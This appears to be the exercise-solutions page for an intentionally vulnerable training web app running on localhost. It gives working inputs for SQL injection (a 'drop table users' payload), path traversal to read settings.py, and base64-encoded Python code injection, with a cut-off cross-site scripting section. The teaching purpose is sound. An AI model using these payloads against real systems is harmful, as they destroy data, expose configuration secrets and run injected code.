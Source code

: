 # Exercise Solutions

Don't read this until you are ready for solutions (cheating is no fun, right?).


## A1: Injection - SQL Injection

Submit the form with:

    '; drop table users;--

The solution is available live in the app after you've tried it.


## A1 Injection - Malicious File Access

Start with

    http://localhost:8000/user-pic?p=hacker.jpg

Change the p= parameter to walk the file system:

    http://localhost:8000/user-pic?p=../../settings.py


## A1 Injection - Malicious Code Execution

Open a interactive Python session.

If you're using Python 3, execute:

    import base64
    base64.encodestring(b"open('p0wned.txt','w').write('boom!')")

If you're using Python 2, execute:

    import base64
    base64.encodestring("open('p0wned.txt','w').write('boom!')")

Copy and paste the value into the textbox:

    b3BlbigncDB3bmVkLnR4dCcsJ3cnKS53cml0ZSgnYm9vbSEnKQ==

The solution is available live in the app after you've tried it.


## A2: Broken Authentication & Session Management

No exercises for this section.


## A3: Cross Site Scripting - URL Path

Start with:

    http://localhost:8000/cross-site-scripting/path-matching/your-path-here
